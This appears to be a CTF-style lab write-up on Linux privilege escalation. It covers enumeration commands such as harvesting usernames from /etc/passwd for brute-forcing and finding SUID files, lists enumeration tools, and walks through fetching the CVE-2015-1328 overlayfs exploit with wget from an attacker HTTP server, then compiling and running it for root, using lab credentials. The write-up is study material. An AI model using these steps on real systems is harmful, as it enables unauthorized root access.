







## Privilege Escalation

At it's core, Privilege Escalation usually involves going from a lower permission account to a higher permission one. More technically, it's the exploitation of a vulnerability, design flaw, or configuration oversight in an operating system or application to gain unauthorized access to resources that are usually restricted from the users.

### Enumeration
Enumeration is the first step you have to take once you gain access to any system. You may have accessed the system by exploiting a critical vulnerability that resulted in root-level access or just found a way to send commands using a low privileged account. Penetration testing engagements, unlike CTF machines, don't end once you gain access to a specific system or user privilege level. 

<details>
<summary>hostname</summary> 
The hostname command will return the hostname of the target machine. Although this value can easily be changed or have a relatively meaningless string (e.g. Ubuntu-3487340239), in some cases, it can provide information about the target system’s role within the corporate network (e.g. `SQL-PROD-01` for a production SQL server).
</details>

<details>
<summary>uname -a</summary> 
Will print system information giving us additional detail about the kernel used by the system. This will be useful when searching for any potential kernel vulnerabilities that could lead to privilege escalation.

You can aslo use `hostnameclt`
</details>

<details>
<summary>/proc/version</summary> 
The proc filesystem (procfs) provides information about the target system processes. You will find proc on many different Linux flavours, making it an essential tool to have in your arsenal.

Looking at /proc/version may give you information on the kernel version and additional data such as whether a compiler (e.g. GCC) is installed.
</details>

<details>
<summary>/etc/issue</summary> 
Systems can also be identified by looking at the /etc/issue file. This file usually contains some information about the operating system but can easily be customized or changed. While on the subject, any file containing system information can be customized or changed. For a clearer understanding of the system, it is always good to look at all of these.
</details>

<details>
<summary>ps</summary> 
The ps command is an effective way to see the running processes on a Linux system. Typing ps on your terminal will show processes for the current shell.

The output of the ps (Process Status) will show the following;

 -   PID: The process ID (unique to the process)
  -  TTY: Terminal type used by the user
 -   Time: Amount of CPU time used by the process (this is NOT the time this process has been running for)
 -   CMD: The command or executable running (will NOT display any command line parameter)

The “ps” command provides a few useful options.

  -  `ps -A`: View all running processes
   - `ps axjf`: View process tree 

  -  `ps aux`: The aux option will show processes for all users (a), display the user that launched the process (u), and show processes that are not attached to a terminal (x). Looking at the ps aux command output, we can have a better understanding of the system and potential vulnerabilities.
</details>

<details>
<summary>env</summary> 
The env command will show environmental variables.

The PATH variable may have a compiler or a scripting language (e.g. Python) that could be used to run code on the target system or leveraged for privilege escalation.

</details>

<details>
<summary>sudo -l</summary> 
The target system may be configured to allow users to run some (or all) commands with root privileges. The sudo -l command can be used to list all commands your user can run using sudo.
</details>

<details>
<summary>ls</summary> 
One of the common commands used in Linux is probably ls.


While looking for potential privilege escalation vectors, please remember to always use the ls command with the -la parameter. The example below shows how the “secret.txt” file can easily be missed using the ls or ls -l commands.
</details>

<details>
<summary>/etc/passwd</summary> 
Reading the /etc/passwd file can be an easy way to discover users on the system.

While the output can be long and a bit intimidating, it can easily be cut and converted to a useful list for brute-force attacks.

`cat /etc/passwd | cut -d ":" -f 1`

Remember that this will return all users, some of which are system or service users that would not be very useful. Another approach could be to grep for “home” as real users will most likely have their folders under the “home” directory.

`cat /etc/passwd | grep home`
</details>

<details>
<summary>history</summary> 
Looking at earlier commands with the history command can give us some idea about the target system and, albeit rarely, have stored information such as passwords or usernames. 
</details>

<details>
<summary>ifconfig</summary> 
The target system may be a pivoting point to another network. The ifconfig command will give us information about the network interfaces of the system. The example below shows the target system has three interfaces (eth0, tun0, and tun1). Our attacking machine can reach the eth0 interface but can not directly access the two other networks. 



 This can be confirmed using the ip route command to see which network routes exist. 

 
</details>


<details>
<summary>netstat</summary> 
 

Following an initial check for existing interfaces and network routes, it is worth looking into existing communications. The netstat command can be used with several different options to gather information on existing connections.


-    `netstat -a`: shows all listening ports and established connections.
 -   `netstat -at` or `netstat -au` can also be used to list TCP or UDP protocols respectively.
  -  `netstat -l`: list ports in “listening” mode. These ports are open and ready to accept incoming connections. This can be used with the “t” option to list only ports that are listening using the TCP protocol (below)


   - `netstat -s`: list network usage statistics by protocol (below) This can also be used with the `-t` or `-u` options to limit the output to a specific protocol. 


 -   `netstat -tp`: list connections with the service name and PID information.


This can also be used with the -l option to list listening ports (below)


We can see the “PID/Program name” column is empty as this process is owned by another user.

Below is the same command run with root privileges and reveals this information as 2641/nc (netcat)


 -   `netstat -i`: Shows interface statistics. We see below that “eth0” and “tun0” are more active than “tun1”.


The netstat usage you will probably see most often in blog posts, write-ups, and courses is `netstat -ano` which could be broken down as follows;

 -   `-a`: Display all sockets
 -   `-n`: Do not resolve names
 -   `-o`: Display timers
</details>

<details>
<summary>find</summary> 
Searching the target system for important information and potential privilege escalation vectors can be fruitful. The built-in “find” command is useful and worth keeping in your arsenal.

Below are some useful examples for the “find” command.

Find files:

-    `find . -name flag1.txt`: find the file named “flag1.txt” in the current directory
-    `find /home -name flag1.txt`: find the file names “flag1.txt” in the /home directory
-    `find / -type d -name config`: find the directory named config under “/”
-    `find / -type f -perm 0777`: find files with the 777 permissions (files readable, writable, and executable by all users)
-    `find / -perm a=x`: find executable files
-    `find /home -user frank`: find all files for user “frank” under “/home”
-    `find / -mtime 10`: find files that were modified in the last 10 days
-    `find / -atime 10`: find files that were accessed in the last 10 day
-    `find / -cmin -60`: find files changed within the last hour (60 minutes)
-    `find / -amin -60`: find files accesses within the last hour (60 minutes)
-    `find / -size 50M`: find files with a 50 MB size

This command can also be used with (+) and (-) signs to specify a file that is larger or smaller than the given size.

`find / -size +100M`

The example above returns files that are larger than 100 MB. It is important to note that the “find” command tends to generate errors which sometimes makes the output hard to read. This is why it would be wise to use the “find” command with “-type f 2>/dev/null” to redirect errors to “/dev/null” and have a cleaner output.

`find / -size +100M -type f 2>/dev/null`


Folders and files that can be written to or executed from:

-    `find / -writable -type d 2>/dev/null`: Find world-writeable folders
-    `find / -perm -222 -type d 2>/dev/null`: Find world-writeable folders
-    `find / -perm -o w -type d 2>/dev/null`: Find world-writeable folders

The reason we see three different “find” commands that could potentially lead to the same result can be seen in the manual document. As you can see below, the perm parameter affects the way “find” works.


`find / -perm -o x -type d 2>/dev/null` : Find world-executable folders

Find development tools and supported languages:

`find / -name perl*`

`find / -name python*`

` find / -name gcc*`

Find specific file permissions:

Below is a short example used to find files that have the SUID bit set. The SUID bit allows the file to run with the privilege level of the account that owns it, rather than the account which runs it. This allows for an interesting privilege escalation path,we will see in more details on task 6. The example below is given to complete the subject on the “find” command.

`find / -perm -u=s -type f 2>/dev/null`: Find files with the SUID bit, which allows us to run the file with a higher privilege level than the current user. 
</details>



### Automated Enumeration Tools

Several tools can help you save time during the enumeration process. These tools should only be used to save time knowing they may miss some privilege escalation vectors. Below is a list of popular Linux enumeration tools with links to their respective Github repositories.

The target system’s environment will influence the tool you will be able to use. For example, you will not be able to run a tool written in Python if it is not installed on the target system. This is why it would be better to be familiar with a few rather than having a single go-to tool.

-  LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
-  LinEnum: https://github.com/rebootuser/LinEnum
-  LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester
-  Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration
-  Linux Priv Checker: https://github.com/linted/linuxprivchecker 

## Privilege Escalation: Kernel Exploits
- Username: karen
- Password: Password1

First, access to the machine over SSH

`sudo openvpn nguyenlong05.ovpn`

`ssh karen@10.10.230.143`

Once connected, run the following command to gather system details:

```
$ hostnamectl
   Static hostname: wade7363
         Icon name: computer-vm
           Chassis: vm
           Boot ID: 562b28fdff4045a1a0a1684e8d8c80c6
  Operating System: Ubuntu 14.04 LTS
            Kernel: Linux 3.13.0-24-generic
      Architecture: x86_64
```

Now we could identify the CVE for kernel exploit


```
# Exploit Title: ofs.c - overlayfs local root in ubuntu
# Date: 2015-06-15
# Exploit Author: rebel
# Version: Ubuntu 12.04, 14.04, 14.10, 15.04 (Kernels before 2015-06-15)
# Tested on: Ubuntu 12.04, 14.04, 14.10, 15.04
# CVE : CVE-2015-1328     (http://people.canonical.com/~ubuntu-security/cve/2015/C
VE-2015-1328.html)
```

Download the script https://www.exploit-db.com/exploits/37292 

Now we check the ip address by the `ifconfig` command



Starts a HTTP server using Python. By default, the server listens on port 8000

`python3 -m http.server`

On the machine, we can see it can't create or write file on target system, but we can move to /tmp directory to do it

`cd /tmp`

Now we transfer the exploit to target system `wget http://10.17.21.74:8000/37292.c` and complie it: `gcc 37292.c -o bocchitherock`, make it executable `chmod +x bocchitherock` and run the script `./bocchitherock`





## Privilege Escalation: Sudo

